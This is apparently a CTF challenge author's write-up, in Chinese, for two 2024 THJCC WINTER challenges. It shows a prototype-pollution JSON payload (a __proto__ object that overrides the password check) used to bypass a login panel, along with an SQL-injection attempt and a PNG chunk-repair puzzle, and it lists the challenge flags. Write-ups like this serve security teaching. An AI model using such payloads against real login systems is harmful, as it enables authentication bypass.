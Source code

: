 ```yaml
---
description: 被嗆爆了下次改進
title: 2024 THJCC WINTER writeup
pubDate: 2024-12-16 15:52:19
tags:
  -  writeup
categories:
    - Daily
---
```


## 前言

我這次出兩題，分別是

- Web
  - Login Panel
- Misc
  - png chunk

---

## Login Panel

預期解是 prototype pollution

### sql injection

```sql
SELECT ? AS SECRET FROM users WHERE user = ? AND password = ?
```

->

```sql
SELECT ? AS SECRET FROM users WHERE user = 'admin' AND password = '1'
```

but 這樣行不通

### prototype pollution

```javascript
loginData = Object.assign({ secret }, loginData); // oh, that's cool
```

其中這邊有個 prototype pollution
Object.assign 將 secret 加入 loginData，可能導致對象原型的污染。
原先的loginData是

```json
{
  "secret": "THJCC{fake}",
  "user": "admin",
  "password": "1"
}
```

可以加入`__proto__`

只要我

```json
{
  "user": "admin",
  "__proto__": {
    "password": {
      "password": 1
    }
  }
}
```

加入 `__proto__` 的，整個 `Object.prototype.password.password` 被設為 1

那![截圖 2024-12-16 15.44.42](https://hackmd.io/_uploads/rkAO9L6Vye.png)

> FLAG : THJCC{pRoTo7YP3_Poi50ninG???}

---

## png chunk

顧名思義就是png 的區塊
用
https://www.nayuki.io/page/png-file-chunk-inspector
去看會發現
![image](https://hackmd.io/_uploads/HkXLiUTV1e.png)
IEND 和 ITAT 的位置有錯
只有把它調整過來就好
![image](https://hackmd.io/_uploads/SkM9i8aN1x.png)
![image](https://hackmd.io/_uploads/S1doo8aEyl.png)

---

## Login Panel 非預期解

![image](https://hackmd.io/_uploads/S1PznI6Nye.png)
![image](https://hackmd.io/_uploads/HJrQ286Nkl.png)

_如果您是通靈大師，那麼密碼藏在首頁_
![image](https://hackmd.io/_uploads/ByjmR86N1g.png)
~~密碼就是never gonna give you up~~
{"user":"admin","password":"https://www.youtube.com/watch?v=dQw4w9WgXcQ&ab_channel=RickAstley"}
![image](https://hackmd.io/_uploads/ry6uR8aEke.png)
🤏
